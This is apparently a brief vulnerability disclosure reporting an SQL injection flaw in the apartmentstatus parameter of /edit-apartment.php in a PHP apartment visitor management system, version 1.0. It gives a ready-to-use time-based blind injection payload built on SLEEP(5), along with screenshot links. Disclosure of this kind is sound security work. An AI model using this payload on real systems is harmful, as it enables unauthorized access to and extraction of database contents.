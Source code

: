 # The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/edit-apartment.php

SQL injection exists in the apartmentstatus parameter

Payload:  apartmentstatus=Empty' AND (SELECT 3542 FROM (SELECT(SLEEP(5)))BMaV) AND 'Dhxm'='Dhxm&submit=

![bc0709c68e6746ca9f3d7a92313156c](https://github.com/user-attachments/assets/0b0d0206-1e1e-43fa-aabd-92e333e3e8ec)

![image](https://github.com/user-attachments/assets/d1796cf7-cbb6-4805-b82d-ccb882f43856)
